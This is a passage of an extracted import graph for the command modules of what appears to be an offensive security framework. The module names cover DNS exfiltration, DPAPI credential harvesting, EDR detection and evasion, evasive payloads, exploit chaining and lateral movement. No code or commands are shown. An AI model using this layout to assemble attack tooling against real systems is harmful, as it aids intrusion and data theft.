"cli/commands/dns_exfil.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "modules.dns_beacon"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dns_exfil.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/dpapi.py", "target": "modules.dpapi_harvester"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "modules.edr_detector"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "modules.edr_detector"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "modules.edr_detector"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/edr_detect.py", "target": "modules.edr_detector"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/encoding.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/encoding.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/encoding.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/encoding.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/encoding.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/enum.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "modules.estorides_importer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/estorides.py", "target": "modules.estorides_importer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "modules.evasive_payloads"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "modules.evasion_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/evasive_payload.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "gzip"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "zipfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "glob"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "boto3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "google.cloud"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "dns.resolver"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exfiltration.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "core.autonomous"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "modules.adcs_attacks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "modules.exploit_chain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "modules.exploit_recommender"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploit_migrated.py", "target": "aclpwn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/exploitgym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "rich.table"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.aliases"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.assign"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.ops_commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard_scope"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.tutorial"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.contextual_help"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.contextual_help"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.contextual_help"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.command_explorer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.config_status"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.tui_theme"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.doctor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.wizard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/help_ui.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "cli.confirm"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/infra.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lab.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral.py", "target": "modules.categories"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lateral_migrated.py", "target": "modules.domain_dominance"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "modules.lazy_mentions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "cli.lazy_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyloop.py", "target": "cli.lazy_monitor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.selfupdate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_runner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_sandbox"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_installer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_skill_mirror"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_skill_mirror"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.lazy_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "modules.custom_tools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cli/commands/lazyops.py", "target": "subprocess"}, 